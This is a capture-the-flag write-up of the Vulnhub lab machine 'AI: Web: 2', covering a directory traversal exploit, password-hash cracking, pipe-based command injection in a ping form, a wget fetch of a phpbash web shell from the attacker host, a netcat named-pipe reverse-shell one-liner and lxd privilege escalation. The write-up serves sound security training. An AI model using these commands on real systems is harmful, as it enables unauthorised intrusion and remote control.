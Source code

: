 ```yaml
---
layout: post
title: Vulnhub - AI:Web:2 writeup
date: 2019-09-03 8:45 PM
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/ai-web-2,357/">AI: Web: 2</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/@arif_xpress">  Mohammad Ariful Islam</a></h4>

## Nmap

![](images/ai2/nmap.png)

Nothing fancy. Let's just start with the port 80

***

## HTTP

![](images/ai2/website.png)

We can see two options, one to login and one to signup. If we try to login with some username guessing then we'll get `illegal username`. So I `signup` as `admin` and then login as `admin`

![](images/ai2/logi.png)

All the of the options were disabled. There was a code section on that page but it was commented so I didn't thought of it much.

I searched for `XuezhuLi FileSharing` using `searchsploit` and found a directory traversal exploit.

![](images/ai2/exploits.png)

I used the directory traversal exploit i.e [XuezhuLi FileSharing - Directory Traversal](https://www.exploit-db.com/exploits/40009) and it worked.

![](images/ai2/traversal.png)

After some guessing I found the hash of the password used.

![](images/ai2/hash.png)

Now we need to crack the hash.

```
You may need to crack password. Use wordlist SecLists/rockyou-45.txt by Mr. Daniel Miessler.
```

This was given in the description of the machine on Vulnhub. So I downloaded the said list i.e [Seclists/rockyou-45.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-45.txt). And then started John on the hash.

With that list I was able to crack the password in 2 seconds.

![](images/ai2/crack.png)

`c.ronaldo:aiweb2admin`

I had credentials but there wasn't any place to login. I tried SSH but it didn't worked. So after that I ran `dirsearch` and it found a dir named `webadmin`.

![](images/ai2/dirsearch.png)

When I tried visiting it I was prompted for username and password. I used the credentials I found and I was in.

![](images/ai2/website-1.png)

Since that sentence is referring to `robots.txt` I opened that and found 2 disallowed directories.

![](images/ai2/robots.png)

When I visited `http://192.168.184.136/webadmin/H05Tpin9555/#` there was a submit form where we could enter and IP and it might ping it.

I was able to execute command by using `|` after the command.

![](images/ai2/cmd-inj.png)

Now I used this to upload a `phpbash.php` file and then from there I a proper reverse shell.

In order to do so.
* Start a `python -m http.server` in the folder where your `phpbash.php` file is present.
* `3232282625|wget http://192.168.184.1:8000/phpbash.php`

__Here the `3232282625` is the decimal representation of the IP `192.168.184.1`.__

If everything is good then you'll get a shell if you visit `webadmin/H05Tpin9555/phpbash.php`.

![](images/ai2/phpbash.png)

Then I used this to run `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f` and got a proper shell.

![](images/ai2/rev.png)

***

## Horizontal Privilege escalation

I couldn't find anything with enumeration script. So I looked in the `/webadmin/S0mextras`, there I found SSH credentials

![](images/ai2/ssh-creds.png)

```
User: n0nr00tuser
Cred: zxowieoi4sdsadpEClDws1sf
```

With those I was able to login via SSH.

![](images/ai2/ssh.png)


***

## Vertical Privilege escalation

[@theart42](https://twitter.com/theart42) figured out that the user `n0nr00tuser` is grouped with `lxd` so we figure that we need to escalate with that.

![](images/ai2/id.png)

There is an exploit for that, [Ubuntu 18.04 - 'lxd' Privilege Escalation](https://www.exploit-db.com/exploits/46978).

So I followed the exploit:

*  `wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine`
*  `sudo bash build-alpine`
*  Transfer this build image to the VM.
*  Run the script and you'll find the flag in `/mnt/root/root`

![](images/ai2/root-shell.png)

![](images/ai2/root.png)

***

This was also pretty good machine. We didn't had to do any guessing or bruteforcing which was really good. Everything was in a flow.

Thanks to [@arif_xpress](https://twitter.com/arif_xpress) for making this machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
